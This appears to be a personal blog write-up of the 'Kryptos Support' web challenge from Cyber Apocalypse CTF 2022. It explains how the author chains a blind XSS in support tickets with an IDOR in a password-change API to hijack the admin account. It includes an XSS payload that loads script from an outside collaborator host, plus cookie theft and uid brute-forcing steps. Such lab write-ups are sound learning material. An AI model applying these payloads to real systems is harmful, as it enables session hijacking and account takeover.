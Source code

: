 ```yaml
---
layout: distill
published: true
title: Web - Kryptos Support Writeup
date: 2022-05-15 11:09:00+0700
description: Writeup for Kryptos Support Challenge. Cyber Apocalypse CTF 2022 - Intergalactic Chase
tags: ctf
# tags: distill formatting
categories: write-ups
thumbnail: assets/img/cyber-apocalypse-ctf-2022/kryptos-1.png # change this
giscus_comments: true
related_posts: true
featured: true

authors:
  - name: Dwiki Kusuma
    url: "https://twitter.com/qlkwej"
    affiliations:
      name: qlkwej
toc:
  - name: TL;DR
  - name: Challenge Description
  - name: Problem
  - name: Attack vectors
    subsections:
      - name: Checking the ticket creating process
  - name: Solution
  - name: Lesson Learned
    subsections:
      - name: Login using default password
      - name: Bypass client-side validation

---
```



{% details Disclaimer %}
I am not a CTF addict nor maniac, I do CTF for fun and learning purpose. 
So, if you are looking for a writeup that is very detailed and easy to understand, I suggest you to find another writeup. 

This writeup is just a note for myself and maybe for someone who is looking for a hint to solve the challenge.
Feedback /  comments / PRs are welcome :)
{% enddetails %}

## TL;DR
This writeup is about Kryptos Support challenge from Cyber Apocalypse CTF 2022 - Intergalactic Chase. To get the flag we need to chain a blind XSS and IDOR vulnerability.

## Challenge Description

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-1.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Upon checking the challenge description, we are given a short description about the challenge.

> The secret vault used by the longhir's planet council, Kryptos, contains some very sensitive state secret that Virgil adn Ramona are after to prove injustice performed by the commision. Ulysses performed an initial recon at their request and found a support portal for the vault.
Can you take a look if you can inflitrate this system? 

Let start the challenge by visiting the given link.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-2.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
*** 

## Problem

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-3.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>
The application is a reporting website that allows user to report a problem. There is a keyword `an admin will review your ticket shortly`.
So, I assume there is a cronjob that run behind the scene to check the ticket and send the report to the admin.

***

## Attack vectors
Let's do basic recon to get more information about the application. I use gobuster<d-footnote>https://github.com/OJ/gobuster</d-footnote> for this purpuse and found several directory, such as:
```
- admin
- logout
- login
- static
- settings
- tickets
```

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-5.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

So we have two piece of puzzle as a `hints`, which was:
1. The admin will review the ticket shortly.
2. The mentioned page / directory above.

The best case scenario is the admin will review the ticket (which contaions blind XSS or CSRF vulnerability) and login to the application. So, we can login to the dashboard (maybe).
But the question is, where is the starting point?

### Checking the ticket creating process
Let's create a ticket and see what happen behind the scene. I use burp suite to intercept the request and send it to repeater. 

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-4.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The request is a POST request with a JSON body to `POST /api/tickets/add`. The body contains a `message`  of the ticket, and it returns a response which indicates the admin will review our message shortly.

Okay, this is maybe the starting point. Let's try to inject a XSS payload to the message and see what happen.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-8.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I use a vanilla javascript payload with the burpsuite collabolator URL as the endpoint. The payload is `"><script src="https://collabolator/test.js"></script>`.

I receive a DNS and HTTP request from the application server to the collabolator server. So, the application is vulnerable to blind XSS.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-7.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

The next step is to steal the cookie if it's using a cookie based authentication using XMLHttpRequest <d-footnote>https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials</d-footnote>. 

I create a dummy server using ngrok <d-footnote>https://ngrok.com/</d-footnote> to host the javascript exploit and use it to receive the request from the application server.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-10.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

I receive a request from the application server and it contains a cookie. So, the application is using a cookie based authentication. Because if it's using a header based authentication, the exploit won't work.

***


## Solution

Checking the session cookie format, it is a JWT token. So, we can decode the token and see what is inside the token.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-11.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Based on the `payload data` it is the `moderator` session. But why not `admin` ? Perhaps there still one missing piece, but will keep it for  observation later.

Use the session cookie from the previous step to login to the application. I use the `Cookie Editor` extension <d-footnote> https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/ </d-footnote>for firefox to change the cookie value.

I can login to the application and see the dashboard. But, there is no flag in the dashboard. So, I assume the flag is in the admin dashboard.
I check all the feature in `moderator` dashboard and found a `change password` feature which is vulnerable to IDOR.


<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-12.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-13.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>


When I put the new password, it will send a POST request to `POST /api/users/update` with a JSON body. The body contains a `password` and `uid` field. The IDOR vulnearbility was in `uid`. IF we can change the `uid` value to the `uid` own by the `admin` we can change the admin password. Since it's a increamental number, so we can bruteforce it from 001-999 _(the current user is moderator with `uid` 100 so admin must be between that range)_.

After several iteration, we found the admin `uid` it is `uid: 001`
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-14.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

Change the admin password on the `change password` feature and login to the admin dashboard. The flag is in the admin dashboard.
<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-15.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>


flag: `HTB{x55_4nd_id0rs_ar3_fun!!}`


***

## Lesson Learned

I learn several things from this challenge:

### Login using default password
The easiest way to login to the application is to use the default password. I try to use `admin:admin` but it won't work. But, it's not a bad idea to try the default password first, because in realworld this scenario is still happen.

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-6.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

### Bypass client-side validation

At first, I check the client-side login validation. Whether it using a weak validation and I can bypass the flow. But, turns out it's a rabbit hole.
It's only give us information if the login were successfull, it will redirected to `/tickets` page

<div class="row mt-3">
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.html path="assets/img/cyber-apocalypse-ctf-2022/kryptos-9.png" class="img-fluid rounded z-depth-1" %}
    </div>
</div>